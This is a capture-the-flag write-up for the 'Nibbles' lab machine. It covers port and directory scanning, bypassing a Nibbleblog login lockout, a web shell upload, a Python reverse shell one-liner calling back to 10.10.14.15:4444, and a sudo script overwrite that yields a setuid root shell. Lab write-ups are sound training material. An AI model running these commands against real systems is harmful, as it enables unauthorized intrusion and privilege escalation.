









# Summary


## about target

tip:  10.129.118.126

hostname: Nibbles

Difficulty:  Easy


## about attack

+ http enum, source code found the path; nibblesblog enum found version and exploit (need creds); brute force and bypass lock or guess with the name of web name(nibbles); sudo -l privesc.
+ guess the password,  common weak password and the web/hosts name.


**attack note**

```bash

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

http enum 
page source, got dir /nibbleblog

dir scan, gobuster/dirb
gobuster dir -u http://$tip/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster.txt

login page, /admin.php
version, 4.0.3; /README

block ip for 5 wrong password.
bypass: https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/

exploit, file upload and rce, need creds
https://github.com/dix0nym/CVE-2015-6967
https://www.exploit-db.com/exploits/38489


sudo -l, found nopasswd run monitor.sh

modify the sh.
echo "cp /bin/sh /tmp/sh; chmod +s /tmp/sh" > monitor.sh

run 
sudo ./monitor.sh

got root.

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip

# Nmap 7.92 scan initiated Sat Sep 24 09:56:21 2022 as: nmap -p- -Pn --min-rate=500 -T4 --open -oN nmap.light 10.129.118.126
Nmap scan report for 10.129.118.126
Host is up (0.33s latency).
Not shown: 64645 closed tcp ports (conn-refused), 888 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sat Sep 24 09:57:51 2022 -- 1 IP address (1 host up) scanned in 89.61 seconds

```


# Exploitation

creds guess,  web server name nibbles.


brute force the lock, x-forwarded-for.  [read more](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/)

the lock count record in file 

http://10.129.118.126/nibbleblog/content/private/users.xml


lock count in config  http://10.129.118.126/nibbleblog/admin/boot/rules/3-variables.bit



bypass the brute force.

```bash
 python nibblecrack.py
```





activate plugins, my image




upload webshell.php

```bash
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```




check the php file, and execute id

http://10.129.118.126/nibbleblog/content/private/plugins/my_image/image.php




```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.15",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```




# Privesc


## Post Enumeration

sudo -l , found nopasswd execute script.

```bash
sudo -l
```



## System


unzip the file in home dir, change the file and privesc.

```bash
# modify the sh.
echo "cp /bin/sh /tmp/sh; chmod +s /tmp/sh" > monitor.sh

# run 
sudo ./monitor.sh
```





# kernel exploit

enum with linux-exploit-suggester.sh,  https://github.com/mzet-/linux-exploit-suggester

```bash
[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Exposure: less probable
   Tags: debian=9{libc6:2.24-11+deb9u1},ubuntu=16.04.3{libc6:2.23-0ubuntu9}
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required

```


## proof

```bash


```



